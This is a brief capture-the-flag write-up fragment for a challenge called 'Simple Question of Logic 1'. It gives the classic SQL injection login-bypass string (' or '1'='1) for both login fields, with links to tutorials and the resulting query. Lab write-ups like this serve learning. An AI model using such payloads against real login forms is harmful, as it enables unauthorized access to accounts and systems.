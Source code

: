 ## Simple Question of Logic 1
- use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))
```sh
# classic login bypass

' or '1'='1
' or '1'='1
```
- as if to say
```erlang
$query = "select * from users where username = '/null/' OR '1'='1' and password = '/null/' OR '1'='1'";
```
## Simple Question of Logic 2
